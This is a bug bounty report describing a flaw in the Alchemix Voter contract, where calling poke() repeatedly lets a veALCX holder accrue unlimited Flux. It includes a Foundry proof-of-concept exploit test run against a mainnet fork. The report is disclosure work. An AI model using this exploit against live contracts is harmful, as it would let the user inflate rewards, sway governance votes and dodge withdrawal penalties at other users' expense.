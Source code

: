
# Vulnerability in the poke function of Voting contract allows a veALCX holder to accrue unlimited amount of Flux

Submitted on Fri May 17 2024 16:57:04 GMT-0400 (Atlantic Standard Time) by @b0g0 for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31388

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- User can indefinitely accrue and mint FluxTokens
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The `poke()` function of `Voter.sol` introduces a vulnerability,  allowing a token holder to increase his Flux balance as much as he likes. Unrestricted supply of Flux gives unfair advantage to voter and allows him to influence the votes and escape penalty when withdrawing

## Vulnerability Details

`Voter.sol` has 3 main function to manage votes:
- `vote()` - used to vote for pools (called `ONCE` per epoch)
- `poke()`- updates the voting status of an existing vote (can be called `MANY` time per epoch)
-  `reset()`- resets the vote ( called `ONCE` per epoch)

Both `vote()` and `poke()` call the internal `_vote()` function, which resets the previous vote, creates a new vote based on the current voting power and accrues new Flux based on it:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412

```solidity
 function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
         // 1. Reset previous vote
        _reset(_tokenId);

        ....

        // 2. Accrue flux
        IFluxToken(FLUX).accrueFlux(_tokenId);

         // 3. calculate weights and create vote
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);
         ....
    }
```
The important part to focus on here is that `Flux is accrued` `every` time `_vote()` is invoked.  The amount accrued is based on the token voting power. `FluxToken::accrueFlux()` looks like this:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188

```solidity
function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
The other important thing to note about FLUX is that it should accrue once `EACH EPOCH`

The docs explicitly state that :
> `The FLUX token is a special reward token that accrues to veALCX positions each epoch...`

Link -> https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/CONTRACTS.md#fluxtokensol

**And this is where the bug lies** - `Voter::poke()` can be called an unlimited amount of times each epoch. As a result `_vote()` will also be called, meaning Flux balances will get accrued on every call, practically enabling the token owner to source as much Flux as he wants.


## Impact Details
Having an unlimited supply of Flux gives the NFT owner the power to:
- boost all his votes, all the time, influencing the outcome of the votes for the pools - the bigger the value locked in an NFT, the more Flux it can steal and the greater influence it can have on the votes

- unlock his position at any time - effectively evading penalty and withdrawing much sooner than intended. This defeats the whole purpose of escrowing and causes harm to the protocol

## References

The `poke()` function:

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195

        
## Proof of concept
## Proof of Concept
I've added a POC inside the currently existing `Voting.t.sol` test file:
https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/test/Voting.t.sol

You can run the POC like this:
`forge test --mt testPokeExploit  --fork-url https://eth.llamarpc.com --fork-block-number 17133822  -vvvv`

```solidity
function testPokeExploit() public {
        // Lock ALCX token for max period to get max voting power
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, true);

        // No unclaimed flux token
        uint256 unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 0);

        // Impersonate token owner and call poke()
        hevm.startPrank(admin);
        voter.poke(tokenId);

        // Flux has been accrued
        unclaimedBalance = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance, 997259164121562177);

        // call poke()and  accrue unclaimed Flux again
        voter.poke(tokenId);

        // Flux has increased x2
        uint256 unclaimedBalance_x2 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x2, unclaimedBalance * 2);

        // Flux has increased x3
        voter.poke(tokenId);
        uint256 unclaimedBalance_x3 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x3, unclaimedBalance * 3);

        // Flux has increased x4
        voter.poke(tokenId);
        uint256 unclaimedBalance_x4 = flux.getUnclaimedFlux(tokenId);
        assertEq(unclaimedBalance_x4, unclaimedBalance * 4);
    }
```
